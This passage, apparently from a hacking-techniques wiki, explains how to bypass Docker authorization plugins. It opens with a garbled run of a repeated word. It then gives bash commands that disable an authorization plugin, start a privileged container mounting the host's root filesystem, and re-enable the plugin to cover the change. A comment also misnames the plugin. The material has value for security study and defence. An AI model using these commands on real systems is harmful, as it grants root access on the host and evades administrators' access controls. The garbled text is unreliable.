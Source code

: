 **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIyajbe'** **bIy
```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```
**re-enable the plugin after escalating**, or a **restart of docker service won’t work**!

## Auth Plugin Bypass writeups

* [https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/](https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/)

## References

* [https://docs.docker.com/engine/extend/plugins\_authorization/](https://docs.docker.com/engine/extend/plugins\_authorization/)


<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
